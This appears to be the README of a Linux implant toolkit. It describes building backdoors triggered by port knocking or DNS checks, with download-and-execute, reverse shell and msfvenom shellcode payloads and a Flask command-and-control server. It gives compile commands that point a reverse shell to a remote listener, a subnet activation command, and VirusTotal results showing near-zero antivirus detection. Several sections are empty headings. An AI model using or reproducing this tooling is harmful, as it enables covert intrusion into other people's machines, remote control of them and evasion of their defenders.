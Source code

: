 # Unnamed Implant Documentation




## Features

## Software Requirements 


### Dependencies:

Required:


To Build x86:


To Load Shellcode:


For Reverse Shell:


## Files

### C Implant

* compiler.py is a basic python framework which allows easy compilation and logging of all implants, similar to the functionality of Veil-Evasion for linux devices

* checker.c and listener.c are the main programs which contain the implant
* attacks.c contains implementations of the attacks
* attacks.h is a header
* dynamic.h is a header file dynamically generated by compiler.py that defines values for the actual compiler

* log.csv is log created during compilation, containing information about all backdoors created.
* activate.py is a python script that parses the logfile, sets up listeners, and activates specified IPs inside of a subnet

### C2 Server 

* servery.py is a flask based HTTP server which responds to requests with C2 information and logs results
* terminal.py is a shell that allows for somewhat easy configuration of C2 
* client.py is a python implementation of the client functionality
* client.c is a shell that eventually will contain the implementation of the C2 server for inclusion with the implant

## Notes 
-d adds debugging comments for the C code, very useful.

If testing locally, change -intfc to 'lo'. 

# Usage

## Compilation 

### Listener with a List of Ports to Port Knock
compiler.py -o implant -p listener -intfc eth0 -act SECRET_PORTS -key 200,300,400 

### Listener with Port Knock Counter
compiler.py -o implant -p listener -intfc eth0 -act SECRET_NUMBER -size 3 -key 1000 

### Checker with Specified Domain
compiler.py -o implant -p checkDNS -delayT 10 -trig "https://target.url" 

## Attacks
### Bang 
-atkB 
Creates a file named bang.txt and if debug is turned on, prints "bang"

### Download and Execute
-atkd 
Downloads a file from a URL specified at compile time and executes it

### Reverse Shell
-atkR -revip _ip_addr_ -revport _port_num_ 
Sends a reverse shell back to a listener specified at compile time.

## Shellcode
-atkSc -a x64 -p linux -ip _host_ip -revip _ip_addr_ -revport _port_num_ 

Shellcode is dynamically generated from msfvenom, parsed, and entered into dynamic.h for inclusion in compiled binary

# Example Usage 

```bash
compiler.py -o implant -p listener -intfc eth0 -act SECRET_PORTS -key 200,300,400 -atkSc -a x64 -p linux -ip 192.168.199.230 -revip 199.168.199.101 -revport 1337
sudo ./implant
```

```bash
msfconsole 
msf > load msgrpc Pass=mypassword
```

```bash
activate.py 192.168.199.0/24
```

# Detection



## VT Detections:
[0/57 Stripped Binary](https://www.virustotal.com/gui/file/5524cd773324ce3b62c0a016d5a14b2bbc92532eb1c20113fb37cbc50cd37bf4)
[1/58 Unstripped Binary](https://www.virustotal.com/gui/file/af3ca3daedc2ebfe58630550dc7cfa2fb9f167326d74fdb6be61a0db30ba1fa4)





